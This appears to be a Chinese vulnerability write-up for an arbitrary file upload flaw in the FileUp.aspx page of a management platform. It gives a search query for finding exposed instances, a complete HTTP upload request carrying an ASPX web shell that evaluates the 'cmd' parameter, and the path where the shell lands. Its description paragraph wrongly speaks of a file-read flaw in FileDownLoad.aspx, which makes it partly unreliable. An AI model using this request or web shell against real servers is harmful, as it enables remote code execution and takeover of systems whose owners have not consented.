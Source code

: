 # 银达汇智 智慧综合管理平台 FileUp.aspx 任意文件上传漏洞

# 银达汇智 智慧综合管理平台 FileUp.aspx 任意文件上传漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

```
银达汇智 智慧综合管理平台
```

## 网络测绘

```
"汇智信息" && title=="智慧综合管理平台登入"
```

## 漏洞复现

登陆页面

![image-20220525150952244](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251514171.png)

文件上传请求包

```
POST /Module/FileUpPage/FileUp.aspx?orgid=1&type=NNewsContent HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 337
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=62907949903a4c499178971c9dab4ad9

--62907949903a4c499178971c9dab4ad9
Content-Disposition: form-data; name="Filedata"; filename="abc.aspx"
Content-Type: image/jpeg

<%@ Page Language="Jscript"%><%Response.Write(FormsAuthentication.HashPasswordForStoringInConfigFile("abc", "MD5").ToLower());eval(Request.Item["cmd"],"unsafe");%>
--62907949903a4c499178971c9dab4ad9--
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251514756.png)

响应包会返回文件名，上传的目录为

```
/imgnews/imgcontent/1/xxxxxxxxxx.aspx
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251514939.png)

出现如图成功上传木马，密码为 `cmd`

